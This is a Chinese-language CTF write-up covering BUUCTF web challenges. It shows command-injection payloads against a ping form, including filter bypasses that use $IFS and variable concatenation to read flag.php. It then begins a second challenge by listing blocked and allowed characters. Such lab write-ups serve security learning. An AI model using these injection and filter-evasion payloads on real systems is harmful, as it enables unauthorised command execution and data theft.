


# BUUCTF-WEB全解


## [GXYCTF2019]Ping Ping Ping



payload：

```
ip=127.0.0.1;ls
```

发现

```
flag.php
index.php
```

payload：

```
ip=127.0.0.1;cat flag.php
```

发现

```
/?ip= fxck your space!
```


payload：

```
ip=127.0.0.1;tac index.*
```


发现

```
/?ip= 1fxck your symbol!
```


```
/?ip= 1fxck your symbol!
/?ip= fxck your space!
/?ip= fxck your flag!
```

综上可以暂时发现，过滤了空格、通配符，flag单词，[]括号等等


尝试：传参顺利，打印出ag

```
/?ip=127.0.0.1;b=ag;echo$IFS$b;
```


所以上述全部都采取传参的形式进行绕过即可

最终的payload如下：

- $IFS，空格绕过
- tac，绕过命令
- $b,\$c,绕过关键词

```
ip=127.0.0.1;b=ag;c=php;d=fl;tac$IFS$d$b.$c
```




## [第二章 web进阶]死亡ping命令

首先就是对输入的长度做出了限制，不过无所谓前端都是可以绕过的

还是一样先进行测试，

```
;
||
*
$
&

都不行
```


```
ls
/
flag
+
?
cat
tac
base64
echo
<>
都是可以的
```


